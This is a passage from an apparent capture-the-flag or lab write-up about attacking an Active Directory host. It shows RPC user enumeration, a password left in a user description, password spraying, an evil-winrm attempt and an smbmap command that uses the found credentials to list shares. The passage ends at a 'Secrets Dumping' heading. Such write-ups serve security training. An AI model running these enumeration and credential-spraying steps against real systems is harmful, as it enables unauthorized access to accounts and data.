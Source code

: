 ```
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[M.Mason] rid:[0x44f]
user:[K.Keen] rid:[0x450]
user:[L.Livingstone] rid:[0x451]
user:[J.Johnson] rid:[0x452]
user:[V.Ventz] rid:[0x453]
user:[S.Swanson] rid:[0x454]
user:[P.Parker] rid:[0x455]
user:[R.Robinson] rid:[0x456]
user:[D.Durant] rid:[0x457]
user:[G.Goldberg] rid:[0x458]
<TRUNCATED>
```

In the description of the `v.ventz` user, there was a password of `HotelCalifornia194!`. Using this, we can do password spraying to test each user.&#x20;

Here's the username list:

```
Administrator
Guest
krbtgt
M.Mason
K.Keen
L.Livingstone
J.Johnson
V.Ventz
S.Swanson
P.Parker
R.Robinson
D.Durant
G.Goldberg
```

However, none of the passwords worked with any user other than `v.ventz`. This user also did not appear to be within the Remote Management Group because we were unable to `evil-winrm` in.

### SMB Shares -> Secrets Dumping

WIth our credentials, we were able to access some SMB shares, with one sticking out:

```
$ smbmap -u 'v.ventz' -p 'HotelCalifornia194!' -H 192.168.219.175
[+] IP: 192.168.219.175:445     Name: 192.168.219.175                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Password Audit                                          READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```
